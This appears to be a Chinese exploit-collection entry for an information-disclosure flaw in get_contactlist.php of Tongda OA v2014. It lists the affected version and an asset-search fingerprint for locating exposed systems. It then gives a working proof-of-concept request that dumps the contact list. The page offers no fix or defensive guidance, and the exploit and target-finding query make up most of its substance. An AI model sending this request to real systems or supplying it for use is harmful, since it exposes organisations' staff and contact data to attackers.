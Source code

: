 # 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

## 漏洞描述

通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

## 漏洞影响

<a-checkbox checked>通达OA v2014</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

版本信息

![img](../../../.vuepress/public/img/1645975969411-bebd5aae-61d9-427d-bde9-bc31c1375ec3.png)

验证POC

```javascript
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![img](../../../.vuepress/public/img/1645975996620-255bce78-f9e5-4542-a2cc-4ba7b35fb50e.png)